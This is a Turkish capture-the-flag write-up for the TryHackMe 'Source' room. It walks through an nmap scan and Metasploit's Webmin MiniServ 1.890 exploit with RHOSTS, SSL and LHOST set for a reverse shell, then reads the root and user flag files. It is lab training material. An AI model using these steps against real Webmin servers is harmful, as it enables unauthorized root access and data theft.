 # Source by Tryhackme

<a href="https://tryhackme.com/room/source" rel="nofollow">Odaya Buradan Ulaşabilirsiniz.</a> 

İlk olarak VPN açıp makinayı çalıştırıyourm. 

Bana verdiği IP adresi şu şekilde = 10.10.90.55 (sizde bu farklı olacaktır.)

Şimdi NMAP taraması yapıyorum 

``` namp -sV 10.10.90.55 ```


tarama sonucu şu şekilde;

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 08:21 EDT
Nmap scan report for 10.10.90.55
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.58 seconds
```

Burada görüyorum ki 10000 portunda Webmin çalışıyor.

10.10.90.55:10000 şekilince arama yapıyorum tarayıcıda.Burada https şekilnde arama yapmam gerektiğini görüyorum.

https://10.10.90.55:10000 şekilinde arama yapıyorum ve karşıma çıkan uyarıya Advanced kısmından devam diyerek ilerliyorum.

Karşım giriş sayfası çıkıyor.

![Screenshot_1](https://user-images.githubusercontent.com/34964480/90019273-d8f03180-dcb6-11ea-9405-660efed5b2f6.png)

Terminal ekranımda ``` msfconsole ``` komutu ile Metasploit başlatıyorum. Ardından ``` serach miniserv 1.890 ``` komutu ile exploit buluyorum.

![Screenshot_2](https://user-images.githubusercontent.com/34964480/90020558-af380a00-dcb8-11ea-9c6a-4c21a7e3548c.png)

Bulduğum bu exploiti kullanmak için exploit sırasını şeçmem gerekli bunun için ``` use 0 ``` komutunu kullandım.

Şimdi seçeneklere bir göz atalım ```options``` komutu seçenekleri gösterecektir.

![Screenshot_3](https://user-images.githubusercontent.com/34964480/90020879-2077bd00-dcb9-11ea-8745-ed7c0d3258c2.png)

Sırasıyla ;

            1 - set RHOSTS <buraya hedef ip adresi >  bizimki bu şekilde set RHOSTS 10.10.90.55 
            
            2 - set SSL true
            
            3 - set LHOST <buraya kali tun0 ip adresi > <bunu sudo ifconfig komutu ile görebiliriz>
            
            4 - run 
            
![Screenshot_4](https://user-images.githubusercontent.com/34964480/90021772-608b6f80-dcba-11ea-98da-05662f2be10e.png)

Bu aşamadan sonra ```pwd```komutu ile hangi dosya yolunda bulunduğumuzu görebiliriz.   

Dosya yolumuz /usr/share/webmin şeklinde. Bize lazım olan ```uer.txt``` ve ```root.txt```.

İlk olarak ```ls/root``` komutu ile root yoluna bakıyorum ve root.txt burada. ```cat /root/root.txt``` komutu ile root.txt bayrağını elde ediyoruz.

Sonrasında ise ```ls /home``` komutu ile home klasörüne bakıyorum içeride dark klasörü yer alıyor ``` ls /home/dark ``` komutuyla dark klasörüne bakıyorum ve user.txt burada.

Son olarak ```cat /home/dark/user.txt``` komutu ile user.txt bayrağını elde ediyoruz.

Böylece odayı tamamlamış olduk. Umarım faydalı olmuştur. Bir sonraki yazıda görüşmek üzere.






